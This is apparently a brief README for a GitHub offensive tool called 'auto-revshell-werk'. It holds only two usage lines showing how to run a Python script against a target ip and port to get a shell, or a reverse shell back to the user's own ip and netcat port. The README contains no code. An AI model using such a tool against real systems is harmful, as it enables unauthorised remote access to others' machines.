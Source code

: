 # auto-revshell-werk
## USAGE: 
python3 w2r.py <ip> <port> to use shell

python3 w2r.py <ip> <port> <your ip> <netcat port> to use revshell
